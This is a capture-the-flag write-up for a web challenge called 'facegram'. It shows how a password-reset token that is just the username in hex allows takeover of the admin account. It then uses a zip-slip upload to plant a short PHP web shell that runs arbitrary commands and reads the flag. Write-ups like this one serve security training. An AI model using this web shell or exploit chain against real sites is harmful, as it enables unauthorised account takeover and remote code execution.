

# facegram (web, 400 points)

> This punk kid stole my idea for a photo sharing site! Can you break into it for me?

## Solution:

When we open up the website, we see a relatively standard main page with a lot of photos. Additionally, we have the option to log in.


Forgot password, huh? Let's try forgetting the admin's password...




Oh...

Ok, what if we register our own account? I set up my own account, and then forgot my own password. A few seconds later, I get a link: `http://thecybercoopctf-707c6fe0a266-facegram-0.chals.io/forgot-password.php?token=646f75626c6564656c657465`.

Hmm... that token looks... not so random. In fact, it's the hex for my username (`doubledelete`). So, let's just try replacing that with the hex for `admin`:

```python
>>> b'admin'.hex()
'61646d696e'
```


After setting the password, let's try logging in as the admin:


Nice! Now what? Let's check out the admin panel. We have the ability to look at all users, as well as bulk upload.


Allowing users to upload ZIP files to an application couldn't _ever_ be a security risk, righ-


(https://github.com/snyk/zip-slip-vulnerability)

If we look at where the uploads are being loaded from, we see they come from the `/uploads` directory. Presumably, if we put something in the directory above, we might be able to load it?

Let's try it:

```
❯ ls --tree
.
├── file
│  └── exp.zip
└── rce.php
❯ cat solve.sh
───────┬─────────────────────────────────────────────
       │ File: solve.sh
───────┼─────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ rm file/exp.zip
   3   │ cd file
   4   │ zip --symlinks exp.zip * ../rce.php
   5   │ cd ..
───────┴─────────────────────────────────────────────
```

Inside of `rce.php`, we put a simple PHP file that executes a command we give it:

```php
<?php 
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}?>
```

Now, we upload it, and...


After a few more commands:

```
$ ls ..
app.db bootstrap.sh db.sql flag.txt html

$ cat ../flag.txt
flag{but_i_thought_zips_only_went_up}
```
